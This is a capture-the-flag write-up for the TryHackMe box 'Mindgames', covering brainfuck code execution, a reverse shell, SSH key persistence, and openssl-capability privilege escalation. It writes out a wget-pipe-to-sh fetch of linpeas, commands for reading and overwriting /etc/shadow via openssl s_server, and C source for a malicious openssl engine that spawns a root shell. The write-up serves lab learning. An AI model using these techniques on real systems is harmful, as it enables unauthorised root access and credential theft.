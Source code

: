 This is a writeup for the Box Mindgames on TryHackMe.


We are greeted by this webpage:

[![https://imgur.com/qYX6ZrS.png](https://imgur.com/qYX6ZrS.png)](https://imgur.com/qYX6ZrS.png)


There we can see some weird cryptic characters.

Luckily i saw it before and knew it is brainfuck code.

I used https://copy.sh/brainfuck/text.html to start playing arround with someoutput.

It seems like the code is executed in python so we can try something like a simple ls:

[![https://imgur.com/hBHedq9.png](https://imgur.com/hBHedq9.png)](https://imgur.com/hBHedq9.png)

It works!

[![https://imgur.com/Ix7XilL.png](https://imgur.com/Ix7XilL.png)](https://imgur.com/Ix7XilL.png)

Now lets try to search arround for hints / something interesting.

After searching arround i didn't find anything so i though the best way is to get a reverseshell.
I tried to copy paste one from PayloadsAllTheThings but it didn't work. (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)
Took me a few min to realize that i have to adjust it because we don't need to tell the programm to run python we can just start at the import statement:

[![https://imgur.com/nbwFn9z.png](https://imgur.com/nbwFn9z.png)](https://imgur.com/nbwFn9z.png)

Now we are in!

[![https://imgur.com/q5JEsep.png](https://imgur.com/q5JEsep.png)](https://imgur.com/q5JEsep.png)

Lets find the userflag and a way to advance ! 

I found the userflag yaaay i am not going to tell you where but its not hidden.

Next i made a .ssh directory generated ssh keypair with sshkeygen and added the pubkey in the authorized file i created copyed the private key to my host machine and logged into ssh with the -i option for private key.

[![https://imgur.com/hGxHijO.png](https://imgur.com/hGxHijO.png)](https://imgur.com/hGxHijO.png)

Now on my hostmachine i already have linpeas.sh downloaded so i set up a http.server with python:

python3 -m http.server 10000

On the target in the /tmp directory we can get the file now with wget and execute it:

wget http://ip:10000/linpeas.sh | sh

We find something interesting.

[![https://imgur.com/qTykJym.png](https://imgur.com/qTykJym.png)](https://imgur.com/qTykJym.png)

[![https://imgur.com/fG0YCF6.png](https://imgur.com/fG0YCF6.png)](https://imgur.com/fG0YCF6.png)

Check kernel version:

[![https://imgur.com/e40xsCU.png](https://imgur.com/e40xsCU.png)](https://imgur.com/e40xsCU.png)

searchsploit with the kernel version gives us this beauties to check:

[![https://imgur.com/9wYBWI4.png](https://imgur.com/9wYBWI4.png)](https://imgur.com/9wYBWI4.png)

Lets try them out:

You can use searchsploit -m to download:
searchsploit -m linux/local/47164.sh

i renamed it to kernel_exploit.sh and then got it on the target machine with over our http server.

Typicall problems: forget permission and then wrong format..

[![https://imgur.com/8sOrDJc.png](https://imgur.com/8sOrDJc.png)](https://imgur.com/8sOrDJc.png)

Okay this seems to be a dead end..

[![https://imgur.com/ksaBlg1.png](https://imgur.com/ksaBlg1.png)](https://imgur.com/ksaBlg1.png)

Lets look for other ways to proceed!
We found cap_setsuid ! 
[![https://imgur.com/HEP67KP.png](https://imgur.com/HEP67KP.png)](https://imgur.com/HEP67KP.png)

[![https://imgur.com/eWFs7uR.png](https://imgur.com/eWFs7uR.png)](https://imgur.com/eWFs7uR.png) CREDS TO: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#capabilities

[![https://imgur.com/zXzZZff.png](https://imgur.com/zXzZZff.png)](https://imgur.com/zXzZZff.png)


Here a short summary taken from the medium article full credits go to him (his name is: Z3R0 ): 

The following part i had to research and i found this awsome medium article about Linux Capabilities and how to use openssl
 with the capability set to ep to get root.

AGAIN CREDIT TO: https://int0x33.medium.com/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099

Come here again when you fully understood it and give a good summary in own words.

1. So far i understood that you can use openssl to create keys and certificates. -> So we can create a keys and certificates
2. You can also start a server running with openssl. -> We can start a server with that keys and certificates
3. Depending on where you are when you have the capability of ep set on openssl it will inherit the permission from the location. -> We start the server with openssl in the / directory.
That means if you start the server from a low privileged userdirectory you will inherit that permission but if you create it in the / directory the server will inherit root permission.
4. We can access this server with wget or curl from our normal user. -> We can do something like: curl -k "https://127.0.0.1:1337/etc/shadow"
5. Now that we have a copy of the /etc/shadow file we can create our own password hash with openssl and with that we can replace the hash for the root user in the file. -> openssl passwd -6 -salt xyz  yourpass
6. Now we want to overwrite the orginial /etc/shadow file to do that we have to encrypt our new shadowfile otherwise we can't transport it over openssl.
7. Now we can overwrite the original file. -> /openssl smime -decrypt -in /tmp/shadow.enc -inform DER -inkey /tmp/privkey.pem -out /etc/shadow
8. We can switch User to root now since we created the new password!


The command for creating a private key and a certificate with openssl is:
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes

with the nodes option you avoid giving a passphrase.

Now we start the server in the root directory:

openssl s_server -key /tmp/key.pem -cert /tmp/cert.pem -port 1337 -HTTP

Now that the server is running we can curl the resource we want!

curl -k "https://127.0.0.1:1337/etc/shadow" ( We could also just curl the root.txt :D )

The reason why need we need -k or --insecure
[![https://imgur.com/7AorKEQ.png](https://imgur.com/7AorKEQ.png)](https://imgur.com/7AorKEQ.png)


In case you get an error try following this solutions:

[![https://imgur.com/wJONvdY.png](https://imgur.com/wJONvdY.png)](https://imgur.com/wJONvdY.png)

It worked for me.

Nvm^ you need root privileges to overwrite..

Turns out this doesn't work ... 
Now we have to create a ssl engine.
https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/
Looks pretty easy though

This is the most basic openssl engine that compiles:

#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  return 1;
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()

Now we can add our rootshell ecommand

#include <openssl/engine.h>
#include <unistd.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0);
  setgid(0);
  system("/bin/bash");
}


IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()


gcc -fPIC -o silly-engine.o -c silly-engine.c
gcc -shared -o silly-engine.so -lcrypto silly-engine.o

openssl engine -t `pwd`/ssl-foo.so



after some struggling it finnaly worked !

[![https://imgur.com/VUrF7t0.png](https://imgur.com/VUrF7t0.png)](https://imgur.com/VUrF7t0.png)

